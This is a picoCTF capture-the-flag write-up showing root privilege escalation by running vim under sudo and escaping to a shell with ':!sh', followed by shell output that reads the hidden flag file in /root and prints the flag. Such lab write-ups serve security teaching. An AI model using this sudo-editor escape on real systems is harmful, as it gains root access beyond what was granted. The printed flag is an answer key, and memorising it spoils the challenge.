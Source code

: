 # Overview 
Category: [General Skills]()

AUTHOR: GEOFFREY NJOGU

# Description
Can you read files in the root file?

# Solution
- We can run vim as root user using sudo vi, for the privilege escalation:
```
sudo vi
```
Now we are running Vim as root and can run command mode inside Vim by using ":!sh" and pressing enter.
>:!sh

- As we can see now, we have a shell with root access .
```
Press ENTER or type command to continue
# whoami
root
# pwd
/home/picoplayer
# cd ../..
# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd root
# ls -a
.  ..  .bashrc  .flag.txt  .profile
# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```